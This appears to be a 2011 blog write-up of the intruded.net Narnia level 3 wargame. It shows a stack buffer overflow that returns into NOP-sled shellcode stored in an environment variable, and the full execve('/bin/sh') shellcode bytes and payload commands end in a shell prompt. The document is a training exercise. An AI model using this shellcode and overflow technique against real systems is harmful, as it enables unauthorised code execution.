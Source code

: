 Title: intruded.net, narnia: level 3
Date: 2011/09/20 22:58
Tags: shellcode, intruded.net, narnia, x86
Author: Ken Ko
Category: tutorials

This time, we have something to do with a printf(). Thinking about this all day, I thought it would be a format string attack--alas, I was mistaken. Let's try the following:

[codebox 1]

After we get a segfault, you'll notice the %eip is strange:

[codebox 2]

Recall that the %eip is a 32-bit instruction pointer--we just set the next instruction to be run as 0x44444343. So, how does this help us? Clearly, we'll want to take advantage of this discovery to either get a shell or cat the .passwd file. 

Let's use what we have from level 2 and try to execute an environment variable. First, we'll need the address of the variable, EGG, because we like to reuse old names; creativity, and all.

[codebox 3]

Now, we just have to run the binary (/tmp/a.out, in my case--laziness) to find the address of EGG. Let's use the old shellcode of pause(), because it's easy to type out.

<code>
level3@narnia:/tmp$ export EGG=`python -c 'print "\x90" * 14 + "\x31\xc0\xb0\x1d\xcd\x80"'` && ./a.out
0xbffffc41
level3@narnia:/tmp$ /wargame/level3 `python -c 'print "A" * 140 + "\x41\xfc\xff\xbf"'`
</code>

Not sure why, yet, but 14 NOPs were needed for this to not crash down on me. Something else to add to my todo list, I suppose. Anyhow, let's replace the pause() for an execve()

<code>
level3@narnia:/tmp$ export EGG=`python -c 'print "\x90" * 16 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42"'` && ./a.out
0xbffffc08
level3@narnia:/tmp$ /wargame/level3 `python -c 'print "A" * 140 + "\x08\xfc\xff\xbf"'`
sh-3.1$ 
</code>

This time, 16 NOPs were needed. Why? <em>No</em> idea. 
At all.

Need to take a gander at the source once more, tomorrow evening.
